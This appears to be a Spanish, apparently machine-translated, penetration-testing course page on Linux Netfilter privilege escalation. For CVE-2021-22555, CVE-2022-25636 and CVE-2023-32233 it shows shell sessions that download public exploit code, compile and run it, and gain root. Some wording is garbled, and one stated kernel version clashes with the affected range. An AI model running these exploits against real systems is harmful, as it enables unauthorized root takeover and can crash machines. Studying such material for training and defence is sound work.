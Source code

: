 # Netfilter

---

`Netfilter`es un módulo de kernel de Linux que proporciona, entre otras cosas, el filtrado de paquetes, la traducción de direcciones de red y otras herramientas relevantes para los firewalls. Controla y regula el tráfico de redes manipulando paquetes individuales en función de sus características y reglas.`Netfilter`También se llama la capa de software en el kernel de Linux. Cuando se reciben y envían paquetes de red, inicia la ejecución de otros módulos, como los filtros de paquetes. Estos módulos pueden interceptar y manipular paquetes. Esto incluye los programas como`iptables`y`arptables`, que sirven como mecanismos de acción del`Netfilter`Sistema de gancho de la pila de protocolo IPv4 e IPv6.

Este módulo de núcleo tiene tres funciones principales:

1. Desfragmentación de paquetes
2. Seguimiento de la conexión
3. Traducción de direcciones de red (NAT)

Cuando se activa el módulo, todos los paquetes IP son verificados por el`Netfilter`antes de que se envíen a la aplicación objetivo del sistema propio o remoto. En 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)), 2022 ([CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)), y también en 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)), se encontraron varias vulnerabilidades que podrían conducir a una escalada de privilegios.

Muchas compañías tienen distribuciones preconfiguradas de Linux adaptadas a sus aplicaciones de software o viceversa. Esto brinda a los desarrolladores y administradores, metafóricamente hablando, una "base dinámica" que es difícil de reemplazar. Esto requeriría adaptar el sistema a la aplicación de software o adaptar la aplicación al sistema más nuevo. Dependiendo del tamaño y la complejidad de la aplicación, esto puede tomar mucho tiempo y esfuerzo. A menudo, esta es la razón por la cual muchas empresas tienen distribuciones de Linux más antiguas y no actualizadas en la producción.

Incluso si la compañía usa máquinas virtuales o contenedores como Docker, se basan en un núcleo específico. La idea de aislar la aplicación de software del sistema de host existente es un buen paso, pero hay muchas maneras de salir de dicho contenedor.

#### CVE-2021-22555

Versiones vulnerables del núcleo: 2.6 - 5.11

  Netfilter

```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

  Netfilter

```shell-session
cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root)
```

#### CVE-2022-25636

Una vulnerabilidad reciente es[CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/)y afecta el núcleo de Linux 5.4 a 5.6.10. Esto es`net/netfilter/nf_dup_netdev.c`, que puede otorgar privilegios de raíz a los usuarios locales debido a la escritura de un montón fuera de los límites.`Nick Gregory`escribió un muy detallado[artículo](https://nickgregory.me/post/2022/03/12/cve-2022-25636/)sobre cómo descubrió esta vulnerabilidad.

  Netfilter

```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```

Sin embargo, debemos tener cuidado con esta hazaña, ya que puede corromper el núcleo, y se requerirá un reinicio para reaccionar el servidor.

  Netfilter

```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
```

#### CVE-2023-32233

Esta vulnerabilidad explota el llamado`anonymous sets`en`nf_tables`mediante el uso del`Use-After-Free`Vulnerabilidad en el núcleo de Linux hasta la versión`6.3.1`. Estos`nf_tables`son espacios de trabajo temporales para el procesamiento de solicitudes por lotes y una vez que se realiza el procesamiento, se supone que estos conjuntos anónimos deben eliminarse (`Use-After-Free`) Entonces ya no se pueden usar. Debido a un error en el código, estos conjuntos anónimos no se manejan correctamente y aún pueden ser accedidos y modificados por el programa.

La explotación se realiza manipulando el sistema para usar el`cleared out`Anónimo se establece para interactuar con la memoria del núcleo. Al hacerlo, podemos ganar potencialmente`root`privilegios.

#### Prueba de concepto

  Netfilter

```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

#### Explotación

  Netfilter

```shell-session
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() => 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
```

Tenga en cuenta que estas exploits pueden ser muy inestables y pueden romper el sistema.